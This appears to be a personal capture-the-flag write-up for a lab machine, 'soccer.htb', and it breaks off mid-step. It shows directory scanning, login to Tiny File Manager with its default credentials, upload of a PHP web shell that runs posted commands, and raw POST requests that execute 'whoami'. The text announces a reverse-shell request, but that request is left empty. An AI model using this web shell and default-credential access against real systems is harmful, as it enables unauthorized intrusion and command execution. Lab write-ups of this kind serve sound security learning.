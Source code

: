 or:
```
feroxbuster -u http://soccer.htb
```
lets check out /tiny:
![[Pasted image 20250922131602.png]]

let me google this:
found this:
```
The default credentials for Tiny File Manager are

`admin` with the password `admin@123` and `user` with the password `12345`
```

and `admin:admin@123` work!

i find that i can upload file to /tiny/uploads.. with that said i also found during my google search this exploit which i am going to try now:
`https://fluidattacks.com/advisories/mosey`
```
<?php
 if($_POST && $_POST['password']==="admin@123") {
 echo system($_POST['cmd']);
 }
?>
```

i successfully upload and if i go to url i dont get 404 or anything:
![[Pasted image 20250922132330.png]]

now lets send this req to burpsuite and use a POST req:
```
POST /tiny/uploads/exploit.php HTTP/1.1
Host: soccer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: filemanager=ttu6ihcuc60oe7sthnuvd6n3jl
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

password=admin@123&cmd=whoami
```
OR
![[Pasted image 20250922133406.png]]

as you can see we get back www-data, lets send a one liner rev-shell:
```
POST /tiny/uploads/exploit.php HTTP/1.1
Host: soccer.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: filemanager=ttu6ihcuc60oe7sthnuvd6n3jl
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

```